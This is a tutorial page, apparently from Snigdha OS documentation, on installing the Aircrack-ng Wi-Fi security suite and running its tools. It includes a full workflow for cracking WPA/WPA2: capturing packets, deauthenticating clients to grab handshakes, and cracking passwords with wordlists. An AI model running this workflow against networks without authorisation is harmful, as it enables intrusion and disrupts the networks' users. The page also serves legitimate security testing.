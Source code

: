 ```yaml
---
sidebar_position: 1
---
```


# Aircrack-NG

### 🔐 **Aircrack-ng: A Complete Guide with Installation on Snigdha OS**

**Aircrack-ng** is a powerful suite of tools used for monitoring, testing, cracking, and securing Wi-Fi networks. This guide will cover how to install Aircrack-ng on Snigdha OS and explain its key tools. Let’s dive in! 🚀

---

### 🛠️ **How to Install Aircrack-ng on Snigdha OS**

1. **Update Your System**:
   Always ensure your system is up-to-date before installing new software:

   ```bash
   sudo pacman -Syu
   ```

2. **Install Aircrack-ng**:
   Aircrack-ng is available in the official Snigdha OS repositories:

   ```bash
   sudo pacman -S aircrack-ng
   ```

3. **Verify Installation**:
   Check that Aircrack-ng is installed correctly by running:

   ```bash
   aircrack-ng --help
   ```

   If installed successfully, you'll see a list of commands and options. ✅

---

### 🧰 **Aircrack-ng Tools Overview**

The Aircrack-ng suite includes several tools for various purposes:

1. **Airmon-ng (Monitor Mode Enabler) 🛰️**  
   Enables monitor mode on your wireless network interface.

   **Usage**:  
   ```bash
   sudo airmon-ng start wlan0
   ```
   This sets your `wlan0` device to monitor mode, allowing you to capture Wi-Fi traffic.

2. **Airodump-ng (Packet Capture) 📡**  
   Captures packets and displays information about nearby wireless networks.

   **Usage**:  
   ```bash
   sudo airodump-ng wlan0mon
   ```
   Replace `wlan0mon` with your monitor-enabled interface. It displays SSIDs, BSSIDs, channels, and more.

3. **Aireplay-ng (Packet Injection) 🎯**  
   Injects packets to test network security or deauthenticate clients.

   **Usage**:  
   Deauthenticate a client to capture a handshake:
   ```bash
   sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon
   ```
   - `<BSSID>`: MAC address of the target access point.
   - `<CLIENT_MAC>`: MAC address of the client.

4. **Aircrack-ng (Password Cracker) 🔓**  
   Cracks WPA/WPA2 passwords using captured handshakes.

   **Usage**:  
   ```bash
   aircrack-ng -w wordlist.txt -b <BSSID> capture_file.cap
   ```
   - `wordlist.txt`: File containing potential passwords.
   - `capture_file.cap`: Packet capture file with the handshake.

5. **Airdecap-ng (Decrypt Packets) 🔐**  
   Decrypts WEP/WPA-encrypted packets after obtaining keys.

   **Usage**:  
   ```bash
   airdecap-ng -w <WPA_KEY> capture_file.cap
   ```

---

### 🔍 **Example Workflow: Cracking WPA/WPA2**

1. **Enable Monitor Mode**:  
   Start monitoring with Airmon-ng:

   ```bash
   sudo airmon-ng start wlan0
   ```

2. **Capture Packets**:  
   Use Airodump-ng to scan for networks:

   ```bash
   sudo airodump-ng wlan0mon
   ```

   Focus on a target by capturing packets on its channel:

   ```bash
   sudo airodump-ng --bssid <BSSID> --channel <CHANNEL> --write capture wlan0mon
   ```

3. **Deauthenticate a Client**:  
   Force a client to reconnect to capture the WPA handshake:

   ```bash
   sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon
   ```

4. **Crack the Handshake**:  
   Use Aircrack-ng with a wordlist to crack the password:

   ```bash
   aircrack-ng -w wordlist.txt -b <BSSID> capture-01.cap
   ```

---

### ⚠️ **Important Notes**

1. **Ethical Use Only**:  
   Always obtain explicit permission before testing any network. Unauthorized use is illegal.

2. **Hardware Compatibility**:  
   Ensure your wireless card supports monitor mode and packet injection. Popular chipsets include **Atheros** and **Realtek**.

3. **Wordlist Quality**:  
   Cracking success depends on your wordlist. Use comprehensive wordlists like `rockyou.txt` or generate custom ones.

4. **Alternative Tools**:  
   Combine Aircrack-ng with tools like **hashcat** for advanced cracking.

---

### 🚀 **Resources and Further Learning**

- [Official Aircrack-ng Documentation](https://aircrack-ng.org/)
- Tutorials on ethical Wi-Fi testing and network security.

---

By following this guide, you’re equipped to install and use Aircrack-ng effectively. Remember to use these tools responsibly and ethically. Happy testing! 🎉